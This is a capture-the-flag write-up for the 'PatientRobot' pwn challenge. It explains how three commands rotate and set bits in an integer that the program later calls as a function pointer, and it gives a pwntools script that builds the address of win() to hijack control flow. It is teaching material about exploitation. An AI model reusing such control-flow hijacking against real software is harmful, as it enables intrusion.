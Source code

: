 # PatientRobot

## Prompt

This old floor cleaning bot ate my flag! Its one of those old models with an obscure language chip installed, which is only made worse by its sluggish response times. I'm losing my patience!

## Solution

Main's only function is to call analyze and then call the result of analyze.
Debuggers may represent this as analyze()().

The binary has a win() function as a target.

The input of analyze has three cases:

1. BEEP
   Bitwise rotate an integer right once
   ```
   004013dd          int32_t rax_5 = strcmp(&var_16c, "BEEP")
   004013e4          if ((rax_5 & rax_5) == 0)
   004013ed              var_10 = rrc.q(var_10, 1, false)
   ```
2. BOOP
   Sleep for 10 seconds
   ```
   004013e4          else if (strcmp(&var_16c, "BOOP") == 0)
   00401418              sleep(seconds: 0xa)
   ```
3. DOOP
   First gets the system time, then copies the 17th character. This happens to be the 10's seconds place.
   It performs a bitwise AND with 1. If the result is 1, the integer buffer is OR'd with 0x800000.
   This effectively means that if the current 10s place of the seconds is odd, such as 10, 30, 50, etc, then this command inserts a bit into the integer.
   Lastly, this command sleeps for 10 seconds.
   ```
   00401411          else if (strcmp(&var_16c, "DOOP") == 0)
   00401443              var_16c.b = 0
   00401454              time_t t = time(nullptr)
   00401488              void nptr
   00401488              strncpy(&nptr, &ctime(t: &t)[0x11], 1)
   004014b9              void endptr
   004014b9              if (zx.q(strtol(nptr: &nptr, endptr: &endptr, base: 0xa) & 1) != 0)
   004014c7                  var_10 = var_10 | 0x800000
   004014d0              sleep(seconds: 0xa)
   ```

The integer buffer that is modified by these commands is also returned to main where it is called as a function.
Since we are modifying a function pointer and have win() in the binary, the natural goal would be to construct the address of win().

So we must find some combination of these four-character commands to manipulate the integer to equal the address of win().

This is a type of puzzle, but consider this:
1. Since inserting a bit only works on odd 10s seconds but then sleeps for 10, every call of DOOP must be followed by BOOP to return to an odd time
2. Rotating does not sleep, so we can rotate as much as we want in between inserting bits.

So lets get the address of win:

```
addr = bin(e.sym['win'])[::-1].strip('b0') # Win addr
```

Note that we must reverse the order of the bits to preserve endianness.

Now each time we see a 1 in the address, we must insert a bit and rotate over once to make room for the next bit.
This also means we must sleep after each bit insert so that the next time is still an odd time.

Each time we see a 0, we can just rotate immediately and try the next bit. 

```
response = ""
for bit in addr:
    if bit == "1":
        response += "DOOPBOOPBEEP"
    elif bit == "0":
        response += "BEEP"
```

And that should construct the address of win. The binary will have to verify the solution after 2 minutes.
Make sure to have your script wait enough time to cover that:

```
print(p.recvline(timeout=200))
```

Remember that since the check for inserting a bit is at an odd numbered digit, the script must be started at times such as
11:17:10
11:17:30
11:17:50
11:18:10
...
where the 10s second is odd.


## Script

```
from pwn import *

e = context.binary = ELF(args.BIN)

# Must be run at a time where the 10's seconds position is odd:
# 06:07:10 , 06:07:30 , 06:07:50 etc.
# https://time.is/

p = process(e.path)
p.recvline()

addr = bin(e.sym['win'])[::-1].strip('b0') # Win addr

response = ""
for bit in addr:
    if bit == "1":
        response += "DOOPBOOPBEEP"
    elif bit == "0":
        response += "BEEP"

p.sendline(response)
print(p.recvline(timeout=200))
p.interactive()
```
